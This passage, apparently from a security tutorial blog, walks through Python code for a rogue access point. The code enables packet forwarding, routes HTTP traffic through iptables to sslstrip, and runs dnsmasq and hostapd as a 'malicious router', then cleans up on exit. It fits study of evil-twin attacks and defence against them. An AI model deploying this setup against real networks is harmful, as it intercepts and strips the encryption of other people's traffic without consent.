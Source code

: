 Once that's out of the way, we enable packet forwarding and configure iptables to act as a malicious router.

{% highlight python %}
	# continued from above
    # enable packet forwarding
    print '[*] Enabling packet forwarding.'
    utils.enable_packet_forwarding()


    print '[*] Configuring iptables to route http traffic to sslstrip'
    iptables.route_to_sslstrip(configs['phys'], configs['upstream'])
{% endhighlight %}

We then write code to launch the dnsmasq and hostapd daemons. We place our code with a try catch block to allow the user to quickly and cleanly kill the script by pressing ctrl+c.

{% highlight python %}
	# continued from above
    try:

        # launch access point
        print '[*] Starting dnsmasq.'
        dnsmasq.start()
        print '[*] Starting hostapd.'
        hostapd.start()

    except KeyboardInterrupt:

        print '\n\n[*] Exiting on user command.'

{% endhighlight %}

Finally, we write code to clean up our mess as the script exits.  We also add a call to main() at the bottom of the file.

{% highlight python %}

	# continued from above
    
    # restore everything
    print '[*] Stopping dnsmasq.'
    dnsmasq.stop()
    print '[*] Stopping hostapd.'
    hostapd.stop()


    print '[*] Restoring iptables.'
    iptables.reset()

    print '[*] Disabling packet forwarding.'
    utils.disable_packet_forwarding()

if __name__ == '__main__':
    main()

{% endhighlight %}
